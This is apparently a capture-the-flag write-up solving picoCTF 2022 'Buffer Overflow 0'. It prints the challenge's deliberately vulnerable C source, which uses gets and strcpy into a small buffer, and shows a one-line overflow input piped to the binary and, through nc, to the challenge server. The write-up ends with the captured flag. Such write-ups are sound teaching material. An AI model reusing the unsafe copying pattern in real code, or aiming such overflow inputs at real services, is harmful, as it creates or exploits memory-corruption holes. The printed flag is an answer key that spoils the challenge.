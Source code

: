 ```yaml
---
title: picoCTF 2022 - Buffer Overflow 0
tags: [pico22, bof, pwn]
---
```


Let's gather some information before trying to run the executable

```bash
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that it's a 32 bit ELF file dinamically linked and not stripped. If we try to run the file it asks for a text file named `flag.txt`. Let's create it and run the file again.

```bash
$ echo "Buffer Overflow HERE" >> flag.txt

$ ./vuln
Input: zanef
The program will exit now
```

Nothing strange happens. Check the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

There's only one function that should stands out and it's `sigsegv_handler`. This function receives an integer and prints out the flag. We can see that in this line it's passed as an argument to another function named `signal`

```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

With a simple search we can read that `signal` _"sets a function to handle signal i.e. a signal handler with signal numer sig"_ and `SIGSEV` is _"a signal propagated when a program tries to read or write outside the memory it is allocated for it"_. With these two definitions we can deduce that this program, when there's an invalid storage read or write, calls the handler that prints the flag.

Ok, we have to write or read outside the memory boundaries. Check the source code again and we can see that the function `vuln` uses `strcpy` to copy the input string into a buffer. `strcpy` is a buffer overflow vulnerable function so if we pass a string larger than the buffer, `strcpy` will try to write it anyway and will overwrite other memory addresses after the buffer.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We can see that in the `main` function it's used `gets` that is another bof vulnerable function.

```c
char buf1[100];
  gets(buf1);
```

Let's exploit `strcpy` giving the program inputs larger than 16 bytes.

```bash
$ python -c 'print "A" * 16' | ./vuln
Input: The program will exit now

$ python -c 'print "A" * 20' | ./vuln
Input: Buffer Overflow HERE
``` 

With an input of 20 bytes the program prints out the content of our `flag.txt` file. This means that the program tried to write outside its boundaries and generated a SIGSEV signal. We can confirm our assumption with this command

```bash
$ sudo dmesg
segfault at 0 ip 00007fc88e67c375 sp 00007ffec5897fd8 error 4 in libc-2.33.so[7fc88e52e000+158000] 
```

Let's exploit the service and get some points

```bash
$ python -c 'print "A" * 20' | nc saturn.picoctf.net 65355
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```